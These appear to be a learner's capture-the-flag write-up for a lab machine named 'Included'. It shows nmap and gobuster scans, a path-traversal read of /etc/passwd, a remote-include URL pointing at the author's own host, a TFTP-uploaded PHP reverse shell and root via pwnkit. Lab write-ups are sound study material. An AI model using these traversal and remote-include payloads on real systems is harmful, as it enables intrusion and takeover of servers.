 # Included

IPv4: 10.129.95.185

## Enumeration/Scanning

- sudo nmap -sV -sC -Pn 10.129.95.185
    
    Starting Nmap 7.93 ( [https://nmap.org](https://nmap.org/) ) at 2023-08-07 05:29 EDT
    Nmap scan report for 10.129.95.185
    Host is up (0.059s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_Requested resource was http://10.129.95.185/?file=home.php
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.82 seconds
    

- sudo gobuster dir -u [http://10.129.95.185](http://10.129.95.185/) -w /usr/share/wordlists/dirb/common.txt
    
    /.htaccess            (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /fonts                (Status: 301) [Size: 314] [--> http://10.129.95.185/fonts/]
    /images               (Status: 301) [Size: 315] [--> http://10.129.95.185/images/]
    /index.php            (Status: 301) [Size: 308] [--> http://10.129.95.185/]
    /server-status        (Status: 403) [Size: 278]
    

Immediately found a REMOTE FILE INCLUSION vulnerability

http://10.129.95.185/?file=../../../etc/passwd

## Exploitation

[http://10.129.95.185/?file=](http://10.129.95.185/?file=../../../etc/passwd)http://10.10.16.173/shell.sh did not work as its not grabbing my file from my python web server

I BROKE THE HOST HAHA restarting…

Double checking the passwd file, I noticed there is tftp. Check google search it uses port 69

tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot

I was able to access it but it is not ran.

http://10.129.234.198/?file=../../../var/lib/tftpboot/shell.sh

Since the server is running php I will attempt a php reverse shell

IT WORKED!

## Privilege Escalation

Checking SUID binaries and running linpeas I noticed I may be able to run pwnkit

pwnkit worked

rooted!

## Post-exploitation

None

